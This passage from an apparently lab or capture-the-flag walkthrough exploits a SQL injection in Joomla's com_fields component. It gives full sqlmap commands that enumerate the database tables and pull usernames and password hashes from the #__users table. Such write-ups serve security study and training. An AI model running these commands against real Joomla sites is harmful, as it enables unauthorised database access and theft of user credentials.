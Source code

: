 ![Sql Map at work](../images/sql-map-at-work-joomla.png)

***Figure 3***: *Sql Map at work*

Just leave it to works, depending on speed of the server it will take some time **to produce a result, but eventually it finally was able to understand how to use the vulnerability**. Once NMap understand how to exploit the url, I can list all the tables of the joomla database

{{< highlight bash "linenos=table" >}}
sqlmap -u "http://xxx.xxx.xxx.xxx/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --random-agent --dbs -p list[fullordering] --dbms=MySQL -D joomla --tables 
{{< / highlight >}}

And I can confirm that it is a joomla database that seems to have an **interesting table called #__users**

![Joomla tables](../images/joomla-tables.png)

***Figure 4***: *Joomla tables*

It is worth dumping everything **from the #__users tables because we expect to find some information and hashed password for users**.

{{< highlight bash "linenos=table" >}}
sqlmap -u "http://xxx.xxx.xxx.xxx/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --random-agent --dbs -p list[fullordering] --dbms=MySQL -D joomla -T "#__users" --dump
{{< / highlight >}}

How annoying, for some reason this vulnerability does not allows SqlMap to dump table columns, **we can let it try to enum all common table columns automatically**, but in a real scenario usually you will install the same version of joomla locally so you can inspect a standard database locally. **I did  not check if with level=5 Sqlmap would be able to find a better way to exploit the vulnerability. For now I'm continuing to check if I have everything I need.**

![No column enumeration](../images/no-column-enumeration-joomla.png)

***Figure 5***: *No column enumeration*

I answered Yes for automatic enumeration and I choose Sqlmap default list of columns and I let him go. After a while I can already see some **juicy columns**

![Interesting column as enumeration result](../images/joomla-column-enumeration.png)

***Figure 6***: *No column enumeration*

Now I can stop column enumeration, because I can immediately dump users, **sqlmap has a nice --sql-query parameter that allows me to issue a super simple query to the database**, this makes trivial to select stuff from database.

{{< highlight bash "linenos=table" >}}
sqlmap -u "http://10.10.45.162/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --random-agent --dbs -p list[fullordering] -D joomla -T "#__users" --sql-query="select username,password from #__users"
{{< / highlight >}}
